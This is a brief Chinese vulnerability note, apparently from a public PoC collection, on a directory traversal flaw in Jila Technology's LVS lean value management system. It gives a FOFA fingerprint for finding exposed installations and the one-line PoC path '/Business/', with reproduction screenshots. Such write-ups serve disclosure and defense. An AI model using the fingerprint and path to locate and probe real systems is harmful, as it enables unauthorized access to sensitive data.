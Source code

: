# 吉拉科技 LVS精益价值管理系统 Business 目录遍历漏洞

## 漏洞描述

杭州吉拉科技有限公司多个系统存在目录遍历漏洞，由于 /Business/ 访问控制不严，攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

吉拉科技 LVS精益价值管理系统

## FOFA

```
"Supperd By 吉拉科技"
```

## 漏洞复现

登录页面

![image-20220525143613247](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251436458.png)

验证POC

```
/Business/
```

![image-20220525143712687](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251437757.png)